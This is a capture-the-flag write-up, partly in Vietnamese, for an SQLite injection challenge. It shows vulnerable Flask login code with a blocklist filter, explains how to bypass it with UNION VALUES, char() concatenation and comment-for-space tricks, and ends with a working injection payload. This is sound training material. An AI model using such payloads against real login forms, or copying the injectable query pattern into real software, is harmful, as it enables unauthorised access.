

# Baby SQLite With Filter

Source: Cookie Arena
Tools: Burpsuite
Technique: SQLI
Fields: Web

- src
    
    ```php
    ...
    @app.route('/login', methods=['GET', 'POST'])
    def login():
        if request.method == 'GET':
            return render_template('login.html')
    
        uid = request.form.get('uid', '').lower()
        upw = request.form.get('upw', '').lower()
        level = request.form.get('level', '9').lower()
    
        sqli_filter = ['[', ']', ',', 'admin', 'select', '\'', '"', '\t', '\n', '\r', '\x08', '\x09', '\x00', '\x0b', '\x0d', ' ']
        for x in sqli_filter:
            if uid.find(x) != -1:
                return 'No Hack!'
            if upw.find(x) != -1:
                return 'No Hack!'
            if level.find(x) != -1:
                return 'No Hack!'
    
        with app.app_context():
            conn = get_db()
            query = f"SELECT uid FROM users WHERE uid='{uid}' and upw='{upw}' and level={level};"
            try:
                req = conn.execute(query)
                result = req.fetchone()
    
                if result is not None:
                    uid = result[0]
                    if uid == 'admin':
                        return FLAG
            except:
                return 'Error!'
        return 'Good!'
    ...
    if __name__ == '__main__':
        os.system('rm -rf %s' % DATABASE)
        with app.app_context():
            conn = get_db()
            conn.execute('CREATE TABLE users (uid text, upw text, level integer);')
            conn.execute("INSERT INTO users VALUES ('dream','cometrue', 9);")
            conn.commit()
    
        app.run(host='0.0.0.0', port=8001)
    ```
    

> Idea:
- Sau khi test sơ vài uid thì nhận thấy rằng uid, upw, level bị filter hầu như các payload cơ bản
— > Sau khi search thì bt đc rằng trong ***sqllite union có thể bắt đầu với VALUES***
> 



- Và do chữ admin cũng bị filter rồi nên là ta sẽ sử dụng char() ở trong sqlite để ép kiểu về dạng ascii và dùng || để nối chuỗi và dùng /**/ như là một cách để bypass khoảng trắng
Comment
- final payload:

```php
uid=&upw=&level=0/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))

```